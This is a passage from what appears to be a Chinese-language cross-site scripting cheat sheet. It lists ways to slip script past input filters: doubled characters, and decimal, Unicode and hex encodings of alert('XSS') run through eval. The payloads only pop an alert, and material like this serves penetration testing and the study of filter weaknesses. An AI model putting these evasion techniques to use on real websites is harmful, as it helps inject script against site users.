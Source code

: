     当字符被过滤可尝试双写绕过
8. 10进制编码

    ```javascript
    <script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>
    //使用CharCode调用alert,也可以用eval执行
    //97,108,101,114,116,40,39,88,83,83,39,41解码后为alert('XSS')
    ```

9. Unicode编码

    ```javascript
    <script>eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0027\u0058\u0053\u0053\u0027\u0029\u003b')</script>
    //使用Unicode编码调用alert,也可以用eval执行


    ```

10. 16进制编码

     ```javascript
     <script>eval("\x61\x6c\x65\x72\x74\x28\x27\x58\x53\x53\x27\x29")</script>
     ```

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍
